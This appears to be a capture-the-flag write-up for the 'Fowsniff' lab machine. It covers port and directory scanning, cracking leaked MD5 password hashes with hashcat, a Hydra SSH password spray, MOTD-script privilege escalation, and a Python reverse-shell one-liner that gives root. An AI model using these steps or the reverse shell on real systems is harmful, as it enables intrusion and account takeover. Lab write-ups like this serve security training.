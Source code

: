 ---

Start scanning the machine using **nmap** 
```
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-06 15:12 CET
Nmap scan report for 10.10.250.22
Host is up (0.081s latency).
Not shown: 1020 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 903566f4c6d295121be8cddeaa4e0323 (RSA)
|   256 539d236734cf0ad55a9a1174bdfdde71 (ECDSA)
|_  256 a28fdbae9e3dc9e6a9ca03b1d71b6683 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) USER TOP CAPA UIDL PIPELINING AUTH-RESP-CODE RESP-CODES
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: more ENABLE LOGIN-REFERRALS listed OK capabilities SASL-IR LITERAL+ post-login ID Pre-login have AUTH=PLAINA0001 IMAP4rev1 IDLE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.54 seconds
```

We found 4 services running on this machine (ports: 22,80,110 and 143). We found a service **SSH** running on port 22, a web server running on port 80, a **POP3** server on 110 and **IMAP** on port 143.
We could now scan the web server directory using **gobuster** or **dirb** 

```
GENERATED WORDS: 4612                                                          

Scanning URL: http://10.10.250.22/
==> DIRECTORY: http://10.10.250.22/assets/       
==> DIRECTORY: http://10.10.250.22/images/    
+ http://10.10.250.22/index.html (CODE:200|SIZE:2629) 
+ http://10.10.250.22/robots.txt (CODE:200|SIZE:26)                            
+ http://10.10.250.22/server-status (CODE:403|SIZE:300)                                                           
Entering directory: http://10.10.250.22/assets/
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway) 
Entering directory: http://10.10.250.22/images/ 
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

END_TIME: Sat Jan  6 15:29:32 2024
DOWNLOADED: 4612 - FOUND: 3
```
The website talk about a official Twitter account where an attacker could dump some sensitive information. We found on this a Pastebin link in a tweet but information were deleted. We can see another link were we could get more information. We get a backup link where we could find the information dump by the hacker.
We have now get some mail address and hash password form employees. We can now try to decode them. 

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

Using **haiti** we learned these password were encrypted with **MD5** algorith. We can now use **Hashcat** or **John The Ripper** to decode these passwords.

```
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 14.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-AMD Ryzen 5 5600 6-Core Processor, 2917/5898 MB (1024 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 7 digests; 7 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 0 secs

90dc16d47114aa13671c697fd506cf26:scoobydoo2               
4d6e42f56e127803285a0a7649b5ab11:orlando12                
1dc352435fecca338acfd4be10984009:apples01                 
19f5af754c31f1e2651edde9250d69bb:skyler22                 
f7fd98d380735e859f8b2ffbbede5a7e:07011972                 
0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever                
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: passwords
Time.Started.....: Sat Jan  6 16:02:31 2024 (4 secs)
Time.Estimated...: Sat Jan  6 16:02:35 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3142.7 kH/s (0.09ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 6/7 (85.71%) Digests (total), 6/7 (85.71%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util:100%

Started: Sat Jan  6 16:02:15 2024
Stopped: Sat Jan  6 16:02:37 2024
```

So with using **Hashcat**, we have get six passwords

```
90dc16d47114aa13671c697fd506cf26:scoobydoo2  => seina@fowsniff            
4d6e42f56e127803285a0a7649b5ab11:orlando12   => parede@fowsniff        
1dc352435fecca338acfd4be10984009:apples01    => tegel@fowsniff          
19f5af754c31f1e2651edde9250d69bb:skyler22    => baksteen@fowsniff        
f7fd98d380735e859f8b2ffbbede5a7e:07011972    => sciana@fowsniff           
0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever   => mursten@fowsniff
```
We could now try do log in on employees mail account.
```
$ telnet 10.10.250.22 110
```

Through Seina's emails, we can read a mail from Stone and we can get a **SSH** temporary password : `S1ck3nBluff+secureshell`.

We can try to use **Hydra** to see if an employee did not change his password.
```
$ hydra -L employees_list.txt -p S1ck3nBluff+secureshell 10.10.250.22 ssh
```
Baksteen did not have change his **SSH** credentials so we have now an access to machine by **SSH**

We can use a script to try to find an exploit. We will use the LinPEAS script.

```
$ ./LinPEAS.sh -o interesting_perms_files,interesting_files,procs_crons_timers_srvcs_sockets
```
We see a file that can be edited by the group which belongs to Parede. If we check in update-motd.d directory, we can see a file running as root when a user connects to the machine using SSH which use the file we edited. We can now stop the **SSh** connection and restart it to get a root reverse shell. 

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<local-IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
We are now connect as root on the machine !

